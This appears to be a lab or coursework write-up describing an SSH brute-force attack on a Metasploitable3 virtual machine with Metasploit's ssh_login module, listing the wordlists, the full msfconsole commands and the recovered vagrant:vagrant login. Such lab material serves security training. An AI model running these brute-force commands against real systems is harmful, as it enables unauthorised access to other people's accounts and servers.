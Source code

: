 # Metasploit – SSH Brute-Force Attack

This section shows how we performed a **real brute-force attack** on the SSH service of Metasploitable3 using Metasploit.

---

## Target Info

- IP Address: 172.28.128.3
- Port: 22
- Service: SSH
- Goal: Discover valid credentials using brute-force.

---

## What We Did

We used Metasploit’s `ssh_login` scanner module to perform a brute-force attack. Instead of trying a single username/password, we created **wordlists** with multiple usernames and passwords. Metasploit automatically tried all combinations until it found valid login credentials.

---

## Wordlists Used

**users.txt**

```
admin
msfadmin
root
vagrant
test
```

**pass.txt**

```
password
123456
msfadmin
vagrant
admin123
```

---

## Steps

1. Start Metasploit:

```bash
msfconsole
```

2. Load the SSH login scanner module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

3. Set up the target and wordlists:

```bash
set RHOSTS 172.28.128.3
set USER_FILE /home/kali/users.txt
set PASS_FILE /home/kali/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
set STOP_ON_SUCCESS true
run
```

---

## Result

Metasploit tried multiple combinations and found valid credentials:

```
[+] 172.28.128.3:22 - Login Successful: vagrant:vagrant
```

This confirms the SSH service was vulnerable to brute-force attacks using weak credentials.

---

## Screenshot

A screenshot showing the brute-force attempts and the successful login result was captured.  
The file is saved as: `metasploit_attack.png`

---

This completes Task 1.1 for Phase 1.

